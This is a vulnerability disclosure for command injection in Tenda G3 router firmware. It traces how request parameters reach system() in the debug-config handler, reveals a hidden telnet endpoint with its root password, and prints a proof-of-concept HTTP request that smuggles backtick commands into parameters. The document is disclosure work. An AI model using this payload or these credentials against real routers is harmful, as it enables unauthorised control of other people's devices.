



# Tenda G3 Command injection vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There are multiple command injection vulnerabilities in tenda G3 V15.11.0.20, which can execute arbitrary command in route system.

## Affected version



Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/ Fireitup

using ida to analysis httpd, in function formSetDebugCfg:



The program passes the contents obtained by the enable parameter 、level parameter、module parameter to pEnable、pLevel、pModule respectively.
Then, format the matching content of pEnable、pLevel、pModule through the sprintf function into cmd.  
The cmd is called by system().  
There exists command injection vulnerability.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.  

```http
GET /goform/setDebugCfg?enable=0`touch${IFS}/tmp/zoe1`&level=0`touch${IFS}/tmp/zoe2`&module=msgd`touch${IFS}/tmp/zoe3` HTTP/1.1
Host: 192.168.0.252
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Languag
e: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close
Content-Length: 0
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:



Figure shows POC attack effect, the file zoe1、zoe2、zoe3 is created.

## CVE-ID

unsigned
